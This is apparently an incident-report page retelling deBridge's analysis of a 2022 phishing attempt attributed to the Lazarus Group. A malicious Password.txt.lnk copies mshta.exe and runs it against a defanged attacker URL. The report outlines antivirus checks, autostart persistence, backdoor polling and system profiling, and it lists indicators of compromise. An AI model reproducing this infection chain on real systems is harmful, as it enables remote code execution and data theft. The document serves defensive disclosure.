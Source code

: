 # deBridge (Attempt)

Date:: August 5, 2022

Google Docs Phishing


---


## Details

PSA for all teams in Web3, this campaign is likely widespread.
The attack vector was via email, with several of our team receiving a PDF file named “New Salary Adjustments” from an email address spoofing mine.
We have strict internal security policies and continuously work on improving them as well as educating the team about possible attack vectors. 
Most of the team members immediately reported the suspicious email, but one colleague downloaded and opened the file
This made us investigate the attack vector to understand how exactly it was supposed to work and what the consequences would be.
Attack won’t infect macOS users: opening this link on a Mac leads to zip archive with the normal PDF file Adjustments.pdf (md5: 15a4…39c2)
…while opening this link on Windows systems leads to an archive with password-protected pdf with the same name (md5: 0038…8bc4), and an additional file named Password.txt.lnk (md5: 2eaa…6a30)
The attack vector is as follows: user opens link from email -> downloads & opens archive -> tries to open PDF, but PDF asks for a password -> user opens password.txt.lnk and infects the whole system.
We’ve inspected password.txt.lnk and here's a brief description of its contents/actions.
LnkParse shows us that clicking the lnk file will execute a cmd.exe command.
Long story short, this command performs the following actions:
Copy C:\Windows\System32\mshta.exe -> %public%/mshta.exe
mshta.exe “https://www[.]googlesheet[.]info/NZrTnPVmtfjcSMz8n1hZZzvHQvUUEfFnIMAYliQuR+A=”
Opening the link in the browser won’t give any content, so we tried to simulate mshta.exe headers with cUrl and it worked!

### Moving deeper into the rabbit hole reveals what this script does:
    - 1. Show notepad.exe with “pdf password”: Salary2022
    - 2. Check if Antivirus processes are active (ekrn - Eset, qqpcrtp - Tencent, bdagent - BitDefender)
    - 3. If no AV processes are found: save the generated malicious file named Box.lnk into autostart folder
    - 4. Decode Base64-encoded backdoor from var lp, save it into a file with a random name

### Here is how it looks:
    - This simple script sends repetitive requests to the attacker command center (CnC) in order to receive instructions. 
    - Replacing eval with logging/echo in the code allowed us to receive malicious instructions from the CnC and analyze them without execution.
    - After a series of empty responses we were finally able to receive the next part. 
    - Fast analysis showed that received code collects A LOT of information about the PC and exports it to CnC: username, OS info, CPU info, network adapters, and running processes.
    - System is considered compromised at the moment because any code from CnC can be performed on the infected machine.
    - It’s interesting that only a few anti-virus solutions mark these files as malicious.
    - According to the Twitter thread https://mobile.twitter.com/cyberoverdrive/status/1550175620927299584 files with the same names (but different hashes) were noticed and attributed to Lazarus Group (North-Korean hackers).

### DangerousPassword / CryptoCore / CryptoMimic / APT
    - b52e3aaf1bd6e45d695db573abc886dc
    - Password.txt.lnk
    - www[.]googlesheet[.]info - overlapping infrastructure with @h2jazi's tweet as well as earlier campaigns.
    - d73e832c84c45c3faa9495b39833adb2
    - New Salary Adjustments.pdf 💸💸💸 twitter.com/h2jazi/status/…
    - More related files can be found with #DangerousPassword hashtag, old research is available here: https://threatbook.cn/ppt/The%20Nightmare%20of%20Global%20Cryptocurrency%20Companies%20-%20Demystifying%20the%20%E2%80%9CDangerousPassword%E2%80%9D%20of%20the%20APT%20Organization.pdf
    - Indicators of Compromise: CnC: www[.]googlesheet[.]info
    - New Salary Adjustments.pdf (clean): 15a42f76f41c8f4bab828160e4fd39c2
    - New Salary Adjustments.pdf (with password): 00380fcbb2af75ec177301d44d658bc4
    - password.txt.lnk: 2eaa53ccb43cd38a1f0a28abcd7f6a30

TL;DR: Never open email attachments without verifying the sender’s full email address, and have an internal protocol for how your team shares attachments!


## URLs

- https://twitter.com/AlexSmirnov__/status/1555586334378676225
- https://www.bleepingcomputer.com/news/security/north-korean-hackers-target-crypto-experts-with-fake-coinbase-job-offers/
- https://www.bleepingcomputer.com/news/security/debridge-finance-crypto-platform-targeted-by-lazarus-hackers/
